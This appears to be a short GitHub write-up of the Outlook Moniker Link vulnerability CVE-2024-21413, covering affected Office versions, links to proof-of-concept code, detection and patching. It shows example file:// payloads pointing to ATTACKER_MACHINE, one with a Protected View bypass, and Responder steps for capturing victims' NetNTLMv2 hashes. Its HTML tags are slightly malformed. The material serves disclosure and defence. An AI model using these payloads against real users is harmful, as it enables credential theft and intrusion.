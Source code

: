 ## Moniker Link CVE-2024-21413

### Tool: Responder, SMTP client

### PoC: https://github.com/xaitax/CVE-2024-21413-Microsoft-Outlook-Remote-Code-Execution-Vulnerability

### Severity: Critical

### Scoring: 9.8

### MS Article: https://msrc.microsoft.com/update-guide/en-US/vulnerability/CVE-2024-21413https://msrc.microsoft.com/update-guide/en-US/vulnerability/CVE-2024-21413

### Affected MS Office releases:

#### 1) Microsoft Office LTSC 2021	(Version: from 19.0.0)

#### 2) Microsoft 365 Apps for Enterprise (Version: from 16.0.1)

#### 3) Microsoft Office 2019 (Version: from 16.0.1)

#### 4) Microsoft Office 2016 (Version: from 16.0.0 before 16.0.5435.1001)

### Example payload: (Moniker Link type: file://)

#### 1) <p><a href="file://ATTACKER_MACHINE/test"<Click me</a></p<

### Outlook's Protected view bypass: (Special character: !)

#### 1) <p><a href="file://ATTACKER_MACHINE/test!exploit"<Click me</a></p<

### POC: https://github.com/CMNatic/CVE-2024-21413

### Steps:

#### 1) sudo responder -I INTERFACE

#### 2) Modify the exploit PoC according to use case

#### 3) Run the exploit

#### 4) User clicks the hyperlink and his NetNTLMv2 hash is been captured by our responder server.

## DETECTION

### 1) YARA rule written by Florian Roth: https://github.com/Neo23x0/signature-base/blob/master/yara/expl_outlook_cve_2024_21413.yar

### 2) Wireshark: The SMB request from the victim to the client can be seen in a packet capture with a truncated NetNTLMv2 hash

## REMEDIATION

#### 1) Patch to the latest version if possible: https://msrc.microsoft.com/update-guide/en-US/vulnerability/CVE-2024-21413 or https://www.catalog.update.microsoft.com/Home.aspx

#### 2)  Remind users to:

##### Do not click random links 

##### Preview links before clicking them

##### Forward suspicious emails to the respective department responsible for cybersecurity
